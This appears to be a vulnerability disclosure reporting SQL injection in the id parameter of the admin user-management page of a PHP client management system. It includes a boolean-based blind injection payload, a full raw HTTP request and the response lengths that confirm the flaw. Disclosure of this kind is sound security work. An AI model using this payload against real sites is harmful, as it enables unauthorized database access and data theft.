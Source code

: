 # Simple-Client-Management-System v1.0 by oretnom23 has SQL injection

**Author：** k0xx

vendors: https://www.sourcecodester.com/php/15027/simple-client-management-system-php-source-code.html

Vulnerability File: /cms/admin/?page=user/manage_user&id=

Vulnerability location: /cms/admin/?page=user/manage_user&id=,id

[+] Payload: /cms/admin/?page=user/manage_user&id=11%27%20and%20length(database())%20=6%20--+  // Leak place ---> id

Current database name: cms_db,length is 6

```sql
GET /cms/admin/?page=user/manage_user&id=11%27%20and%20length(database())%20=6%20--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=3m0l1n81dvmlo0a3h9oo72q1gp
Connection: close

// Leak place ---> id
```

When length (database ()) = 6, Content-Length: 24963
![image](https://user-images.githubusercontent.com/54017627/164883475-57f83038-d3f0-40ca-94de-647333d31543.png)


When length (database ()) = 7, Content-Length: 25112
![image](https://user-images.githubusercontent.com/54017627/164883482-7cea1ca4-106b-4b81-9dff-e754e0da5877.png)

